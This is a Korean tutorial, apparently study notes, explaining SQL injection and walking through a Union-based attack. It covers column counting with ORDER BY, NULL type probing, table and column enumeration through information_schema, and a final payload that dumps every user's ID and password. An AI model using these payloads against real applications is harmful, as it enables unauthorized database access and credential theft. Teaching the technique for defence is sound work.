 # SQL Injection 이란?

- SQL 인젝션(SQL Injection)은 공격자가 웹 애플리케이션의 데이터베이스를 조작하기 위해 악의적인 SQL 코드를 삽입하는 공격 방법
- 애플리케이션이 사용자의 입력값을 그대로 SQL 쿼리에 포함할 때 발생
    - 사용자가 입력하는 로그인 또는 검색 기 등의 입력 폼에 SQL의 문법적 의미를 갖는 홑따옴표(') 입력 시 SQL 에러 메시지를 반환한다면 SQL Injection 공격이 가능한 것으로 판단
- 데이터베이스의 무단 접근, 데이터 유출, 데이터 변조 등의 심각한 문제를 야기

# SQL Injection 공격 유형

## 1. Union SQL Injection

- 원래 쿼리는 id 값 한 명의 사용자 정보만 반환하지만 공격자가 추가한 UNION 구문이 실행되면서 member 테이블의 모든 사용자 ID와 비밀번호가 함께 조회됨

### 공격 과정

- 공격자는 UNION SELECT를 사용하기 위해서 원래 쿼리의 컬럼 개수와 같은  개수의 컬럼을 맞춰야 하기 때문에 먼져 ORDER BY를 이용해서 컬럼 개수를 알아냄

```sql
SELECT * FROM member ORDER BY 1;  -- 정상 실행됨
SELECT * FROM member ORDER BY 2;  -- 정상 실행됨
SELECT * FROM member ORDER BY 3;  -- 정상 실행됨
SELECT * FROM member ORDER BY 4;  -- 오류 발생! (컬럼이 3개라는 뜻)
```

- 그 다음으로 컬럼의 데이터 타입도 맞추기 위해 null값을 넣어 본다.

```sql
SELECT * FROM member WHERE id = 'qwer' 
UNION SELECT 'test', NULL, NULL;  -- 첫 번째 컬럼이 문자열이면 정상 실행
```

```sql
SELECT * FROM member WHERE id = 'qwer' 
UNION SELECT 123, NULL, NULL;  -- 첫 번째 컬럼이 숫자면 정상 실행됨
```

- 이후 `information_schema.tables` 를 사용해 어떤 테이블이 있는 지 확인한다.

```sql
SELECT * FROM member WHERE id = 'qwer' 
UNION SELECT NULL, table_name, NULL FROM information_schema.tables;
```

- 알아낸 테이블 목록을 통해 원하는 테이블에서의 컬럼 목록을 찾는다.

```sql
SELECT * FROM member WHERE id = 'qwer' 
UNION SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_name = 'member';
```

- 최종적으로 데이터를 추출한다. 아래 쿼리를 통해 모든 사용자의 id와 비밀번호를 알 수 있다.

```sql
qwer' UNION SELECT null, id, pw FROM member; --
```
